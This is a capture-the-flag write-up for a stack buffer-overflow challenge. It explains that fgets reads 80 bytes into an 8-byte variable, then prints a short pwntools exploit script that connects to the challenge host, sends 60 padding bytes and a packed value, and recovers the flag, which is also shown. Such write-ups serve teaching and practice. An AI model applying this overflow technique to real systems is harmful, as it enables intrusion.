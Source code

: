 # Description:

Tell me your favorite number and I might give you the flag ;).

```
nc chall.pwnoh.io 13372
```

# Solution
Use IDA64 to decompile binaryfile, easyly that fgets read 80 byte of "favoriteNumber" but favoriteNumber[8] have only 8 byte 

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/13b3cb16-cef1-475b-972c-913d656961eb)


```
from pwn import *

#p = process('./buffer')
#elf = ELF('./buffer')
p = remote('chall.pwnoh.io', 13372)
res = p.recvuntil(':')
print(res)
offset = 60
payload = b'a' * offset + p64(0x45454545)
p.sendline(payload)

p.interactive()
```

#bctf{wHy_WriTe_OveR_mY_V@lUeS}
